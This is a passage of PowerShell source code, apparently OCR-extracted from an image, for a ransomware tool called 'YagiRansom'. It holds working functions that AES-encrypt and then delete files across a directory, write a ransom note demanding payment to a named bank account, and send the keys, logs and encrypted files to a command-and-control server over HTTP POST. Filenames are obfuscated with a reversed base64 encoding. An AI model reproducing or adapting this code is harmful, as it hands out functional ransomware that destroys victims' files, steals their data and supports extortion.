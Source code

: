 ```ps1 h!
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }
function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }
function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }
function CreateReadme {
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
```